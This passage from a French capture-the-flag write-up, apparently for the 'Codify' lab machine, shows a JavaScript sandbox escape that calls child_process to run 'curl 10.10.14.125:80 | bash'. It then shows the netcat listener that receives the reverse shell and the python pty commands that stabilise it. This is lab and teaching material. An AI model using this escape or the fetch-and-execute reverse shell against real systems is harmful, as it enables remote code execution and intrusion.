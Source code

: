 ```bash
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('curl 10.10.14.125:80 | bash');
}
`

console.log(vm.run(code));
```

![Alt text](image-1.png)

On est bien connecté !
```bash
~ » nc -lvp 44445
Listening on 0.0.0.0 44445
Connection received on codify.htb 60340
bash: cannot set terminal process group (1254): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$ ls
ls
pwned
```

### Stable shell
On ouvre un shell plus stable en python
```bash
svc@codify:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
svc@codify:~$ export TERM=xterm
export TERM=xterm
svc@codify:~$ ^Z
[1]  + 23986 suspended  nc -lvp 44445
~ » stty raw -echo; fg
[1]  + 23986 continued  nc -lvp 44445

svc@codify:~$
```
